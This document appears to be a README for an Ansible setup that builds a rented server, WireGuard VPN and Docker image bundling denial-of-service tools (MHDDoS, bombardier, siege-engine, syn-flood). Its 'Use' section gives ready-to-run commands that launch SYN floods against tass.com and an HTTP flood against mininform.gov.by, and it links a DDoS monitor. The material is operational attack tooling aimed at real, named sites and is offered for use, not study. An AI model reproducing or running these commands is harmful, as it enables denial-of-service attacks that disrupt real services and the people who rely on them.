 - [Important](#important)
- [Overview](#overview)
  - [Details](#details)
    - [Tools in the Docker image](#tools-in-the-docker-image)
  - [Monitoring tools](#monitoring-tools)
- [Install](#install)
  - [Deps](#deps)
  - [Install Ansible](#install-ansible)
- [Run](#run)
  - [Digital ocean](#digital-ocean)
- [Use](#use)
  - [Wireguard](#wireguard)
  - [Use tools/get shell](#use-toolsget-shell)
  - [Siege Engine (syn flood)](#siege-engine-syn-flood)
  - [Golang syn-flood](#golang-syn-flood)
  - [MHDDoS](#mhddos)
  - [Bombardier](#bombardier)

# Important
* Tested on Ubuntu 20.04
* For now supported SSH keys only
* PRs are welcome

# Overview
Sometimes we may need good internet channel, especially since Feb 24. There may be no good internet channel or no access to the VPN. Solution to it is to set up a server with tools. All you need is to create virtual server or rent physical server

## Details
This is a set ansible roles to install core tools on remote server
* Wireguard VPN, config will be fetched to local
* Docker
* tmux (with `screen` like rc, check `ansible/roles/wireguard/files/.tmux.conf`)

### Tools in the Docker image
* [MHDDoS](https://github.com/MHProDev/MHDDoS)
* [bombardier](https://github.com/codesenberg/bombardier)
* [siege-engine](https://github.com/smok-serwis/siege-engine)
* [syn-flood](https://github.com/bilalcaliskan/syn-flood)

## Monitoring tools
* [Monitor](https://ddosmonitor.herokuapp.com/)
* [Geo distributed monitor](https://www.uptrends.com/tools/uptime)
* [ctop](https://github.com/bcicen/ctop)
  ```
  docker run --rm -ti \
    --name=ctop \
    --volume /var/run/docker.sock:/var/run/docker.sock:ro \
    quay.io/vektorlab/ctop:latest
  ```

# Install
## Deps
* `pip` - python package manager. Install doc can be found [here](https://www.geeksforgeeks.org/how-to-install-pip-on-windows/#:~:text=Download%20and%20Install%20pip%3A&text=Download%20the%20get%2Dpip.py,where%20the%20above%20file%20exists.&text=and%20wait%20through%20the%20installation,now%20installed%20on%20your%20system.), note, I've not tested it.
* Wireguard client, install doc can be found [here](https://www.wireguard.com/install/)

## Install Ansible
If you have `pip` installed, than install via pip - [reference](https://docs.ansible.com/ansible/latest/installation_guide/intro_installation.html#installing-ansible-with-pip)
In short, run
```
python -m pip install --user ansible
```

# Run
## Digital ocean
```
cd ansible/
export a_user="root"
export a_ip="SERVER_IP"
ansible-playbook -i "${a_ip}," -u ${a_user} -b play.yaml
```

# Use
## Wireguard

## Use tools/get shell
Ensure that you have exported variables from [Run](#run) according to your hosting provider and run following
```
ssh ${a_user}@${a_ip}
```

## Siege Engine (syn flood)
Tool for SYN flood, [ref](https://github.com/smok-serwis/siege-engine)
```
docker run --rm -it mack/battle-tools python3 -m siege_engine 300 tass.com
```

## Golang syn-flood
Tool for SYN flood, [ref](https://github.com/bilalcaliskan/syn-flood)
```
docker run --rm -it mack/battle-tools syn-flood --port 443 --host tass.com
```

## MHDDoS
TBD

## Bombardier
Tool for HTTP stress (we should use `--http2` because [fasthttp issue](https://github.com/codesenberg/bombardier#known-issues))
```
docker run --rm -it mack/battle-tools bombardier --http2 -c 200 -d 300s -l https://mininform.gov.by
```
